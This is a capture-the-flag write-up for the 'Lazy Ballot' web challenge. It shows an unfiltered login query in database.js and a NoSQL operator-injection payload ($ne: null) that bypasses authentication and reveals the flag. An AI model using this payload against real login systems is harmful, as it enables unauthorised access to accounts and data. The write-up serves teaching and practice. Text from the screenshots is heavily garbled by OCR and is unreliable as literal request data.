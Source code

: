 # Lazy Ballot
> As a Zenium State hacker, your mission is to breach Arodor's secure election system, subtly manipulating the results to create political chaos and destabilize their government, ultimately giving Zenium State an advantage in the global power struggle.

## About the Challenge
We were given a source code (You can download the source code [here](web_lazy_ballot.zip)) and also we got a website to test. Here is the preview of the website


[Image extracted text: ArOdOr ElectiONS
HOme
Blog
0 Voting PlatfOrm
View ReSUlts
1.8 Billion Votes Collected
ReSults &re CUrcently DeiNg PrOCeSSed aNd will De MadE AvaiLaDle ON this PLALFONMN]


And also there is a login page


[Image extracted text: Login
USerNANE
PaSSWOrd
SUbmit]


The flag was located in the database, especially in the `votes` database and we need to login first to obtain the flag


[Image extracted text: for (let i = 0; i <=
voteCount;
i++)
const region
this.regions[Math
floor (Math
random
this
regions.length) ];
const
party
this
parties[Math.floor (Math
random
this-parties-length) ];
const
vote
region"
voteCount
this
region,
party"
party,
"verified"
voteCount
false
true
this.votesdb.insert(vote, i);
flag]


## How to Solve?
If you check this code in `database.js` file

```js
async loginUser(username, password) {
    const options = {
        selector: {
            username: username,
            password: password,
        },
    };

    const resp = await this.userdb.find(options);
    if (resp.docs.length) return true;

    return false;
    }
```

As you can see there is no filter in the code so we can bypass it using this payload

```
{"username": {"$ne": null}, "password": {"$ne": null} }
```


[Image extracted text: Request
Response
Pretty
Raw
Hex
Pretty
Raw
Hex
Render
POST
[api/login
HTTP/1 - 1
HTTP/1-1
200
Host
94.237
149:52648
X-Povered-BY:
Express
User-
Agent
Hozilla/5
(Vindous
IT
Vine4 ;
264;
17:109
Cont ent -
Type
applicat
on/Json;
charsetsut f-8
Geclo/ZO100101
Firefox/115 _
Content-Length:
Accept
ETag:
Za-/VPOES-EBCIUsOBlY9syo+ZDc?"
1ecept
Language
Ea
US
en ; 4-0_
Dace
Hon
Jul
2023 03:55:2=
GHT
Accept-Encoding:
szip ,
deflace
Connect_
on -
close
Referer:
http: / /94_
237
55.149: 52648/login
Content
Type
applicat
on/ Json
Concent
Lengch:
resp
"User
auchenticated
success fully
Origin:
http: / /94
237.
149: 52648
Connect
on :
close
Coolie:
connect
sid=
5t34ghBul:YBppL 4HKLH?
dBWIliEgEud3X-Y- oVIJZbSva: BiEFVAHeNIFTOPJ7F
ffS]PH9gZt swVaHR8
usernane
Sne
nul
assvord
{ne
nul]


And then find the flag in the voting list


[Image extracted text: @ Votes
Party
Region
Verified
FCOD164ACOFDSDZZBD4 DZFS6EDS9DSE
Order Of CONtCOl AlliaNCE
HTBICOrrupt:d_cQuch_bAlDt}
FalSE
2
3
4
5
6
10]


```
HTB{c0rrupt3d_c0uch_b4ll0t}
```